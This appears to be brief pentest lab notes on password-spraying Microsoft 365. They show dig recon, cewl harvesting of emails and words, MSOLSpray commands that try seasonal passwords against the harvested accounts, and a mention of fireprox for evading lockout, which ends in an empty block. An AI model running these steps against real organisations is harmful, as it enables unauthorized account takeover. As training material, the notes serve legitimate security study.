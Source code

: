 # Attacking microsoft 365 passwords notes

recon

```
dig +short @172.30.0.254 MX falsimentis.com
dig +short @172.30.0.254 CNAME autodiscover.falsimentis.com
```

visit these sites and enumerate to understand more, in this case we find emails so let's use cewl to extract them out

```
cewl -d 8 -w words.txt -e --email_file email.txt http://www.falsimentis.com/
```

above will create a words list named words.txt and an email file list named email.txt

## MSOLSpray

now spary these with MSOLSpray tool
[MSOLSpray](https://github.com/dafthack/MSOLSpray)

```
Import-Module /opt/MSOLSpray/MSOLSpray.ps1
Invoke-MSOLSpray -UserList ./email.txt -Password Lakers2020
Invoke-MSOLSpray -UserList ./email.txt -Password Dodgers2020
```

smartlock will lock these so instead let's use fireprox

```

```
